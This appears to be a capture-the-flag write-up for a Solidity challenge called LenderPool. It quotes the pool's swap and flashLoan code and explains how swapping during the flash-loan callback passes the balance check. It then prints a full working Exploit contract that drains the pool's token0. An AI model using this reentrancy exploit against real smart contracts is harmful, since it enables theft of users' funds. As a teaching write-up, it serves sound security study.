 [Source](LenderPool)

>If you are poor, go to the lenderPool.

The goal of this challenge is to drain all `token0` in the pool.

The pool implements the following `swap` and `flashLoan` functions.

```solidity
    function swap(address tokenAddress, uint256 amount) public returns (uint256) {
        require(
            tokenAddress == address(token0) && token1.transferFrom(msg.sender, address(this), amount)
                && token0.transfer(msg.sender, amount)
                || tokenAddress == address(token1) && token0.transferFrom(msg.sender, address(this), amount)
                    && token1.transfer(msg.sender, amount)
        );
        return amount;
    }

    function flashLoan(uint256 borrowAmount, address borrower) external nonReentrant {
        uint256 balanceBefore = token0.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        token0.transfer(borrower, borrowAmount);
        borrower.functionCall(abi.encodeWithSignature("receiveEther(uint256)", borrowAmount));

        uint256 balanceAfter = token0.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

The `swap` function cannot be executed because the token balance is zero. Thus, the first step is to execute the `flashLoan` function.

In the `flashLoan` function, the `receiveEther` function is called. During that call, by executing the `swap` function, the full amount of `token0` can be swapped to `token1`. Next, `token1` can be `swapped` to `token0` to drain all `token0` from the pool.

Therefore, execute the following contract.

```solidity
contract Exploit {
    LenderPool lenderPool;

    function exploit(address lenderPoolAddress) public {
        lenderPool = LenderPool(lenderPoolAddress);
        lenderPool.token0().approve(lenderPoolAddress, 100 * 10 ** 18);
        lenderPool.token1().approve(lenderPoolAddress, 100 * 10 ** 18);
        lenderPool.flashLoan(100 * 10 ** 18, address(this));
        lenderPool.swap(address(lenderPool.token0()), 100 * 10 ** 18);
    }

    function receiveEther(uint256 amount) public {
        lenderPool.swap(address(lenderPool.token1()), amount);
    }
}
```
